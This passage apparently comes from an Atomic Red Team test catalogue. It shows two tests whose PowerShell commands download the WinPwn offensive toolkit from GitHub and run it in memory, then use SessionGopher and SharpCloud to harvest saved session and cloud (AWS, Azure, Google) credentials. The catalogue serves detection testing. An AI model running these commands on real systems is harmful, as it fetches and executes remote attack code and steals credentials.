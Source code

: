 



<br/>
<br/>

## Atomic Test #11 - WinPwn - SessionGopher
Launches SessionGopher on this system via WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** c9dc9de3-f961-4284-bd2d-f959c9f9fda5






#### Attack Commands: Run with `powershell`! 


```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
sessionGopher -noninteractive -consoleoutput
```






<br/>
<br/>

## Atomic Test #12 - WinPwn - Loot local Credentials - AWS, Microsoft Azure, and Google Compute credentials
Loot local Credentials - AWS, Microsoft Azure, and Google Compute credentials technique via function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** aaa87b0e-5232-4649-ae5c-f1724a4b2798






#### Attack Commands: Run with `powershell`! 


```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
SharpCloud -consoleoutput -noninteractive
```






<br/>
